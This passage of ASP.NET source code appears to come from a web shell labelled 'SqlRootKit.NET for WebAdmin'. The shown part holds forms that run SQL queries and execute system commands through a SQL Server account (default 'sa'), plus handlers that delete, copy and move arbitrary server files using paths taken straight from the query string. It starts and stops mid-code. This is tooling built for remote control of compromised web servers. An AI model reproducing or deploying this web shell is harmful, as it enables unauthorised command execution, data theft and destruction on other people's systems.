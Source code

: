   SQL Password:
  <asp:TextBox ID="txtSqlPass" runat="server" Width="80" class="TextBox"/>
  </p>
  Command:
  <asp:TextBox ID="txtSqlcmd" runat="server" Width="500" class="TextBox" TextMode="MultiLine" Rows="6"/></br>
  <asp:Button ID="btnButtonSQL" runat="server" Text="Run" OnClick="RunSQLQUERY" class="buttom" Width="100"/>  
  <p>
   <asp:Label ID="lblresultSQL" runat="server" style="style2"/>      </p>
</form>
<%
	case "sqlrootkit"
%>
<form runat="server">
  <p>[ SqlRootKit.NET for WebAdmin ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  <p> Execute command with SQLServer account(<span class="style3">Notice: only click "Run" to run</span>)</p>
  <p>Host:
    <asp:TextBox ID="ip" runat="server" Width="300" class="TextBox" Text="127.0.0.1"/></p>
  <p>
  SQL Name:
    <asp:TextBox ID="SqlName" runat="server" Width="50" class="TextBox" Text='sa'/>
  SQL Password:
  <asp:TextBox ID="SqlPass" runat="server" Width="80" class="TextBox"/>
  </p>
  Command:
  <asp:TextBox ID="Sqlcmd" runat="server" Width="300" class="TextBox"/>
  <asp:Button ID="ButtonSQL" runat="server" Text="Run" OnClick="RunSQLCMD" class="buttom"/>  
  <p>
   <asp:Label ID="resultSQL" runat="server" style="style2"/>      </p>
</form>
<%
	case "del"
		dim a as string
		a=request.QueryString("src")
		call existdir(a)
		call del(a)  
		response.Write("<script>alert(""Delete " & replace(a,"\","\\") & " Success!"");location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(Getparentdir(a)) &"'</script>")
	case "copy"
		call existdir(request.QueryString("src"))
		session("cutboard")="" & request.QueryString("src")
		response.Write("<script>alert('File info have add the cutboard, go to target directory click paste!');location.href='JavaScript:self.close()';</script>")
	case "cut"
		call existdir(request.QueryString("src"))
		session("cutboard")="" & request.QueryString("src")
		response.Write("<script>alert('File info have add the cutboard, go to target directory click paste!');location.href='JavaScript:self.close()';</script>")
	case "paste"
		dim ow as integer
		if request.Form("OverWrite")<>"" then ow=1
		if request.Form("Cancel")<>"" then ow=2
		url=request.QueryString("src")
		call existdir(url)
		dim d as string
		d=session("cutboard")
		if left(d,1)="" then
			TEMP1=url & path.getfilename(mid(replace(d,"",""),1,len(replace(d,"",""))-1))
			TEMP2=url & replace(path.getfilename(d),"","")
			if right(d,1)="\" then   
				call xexistdir(TEMP1,ow)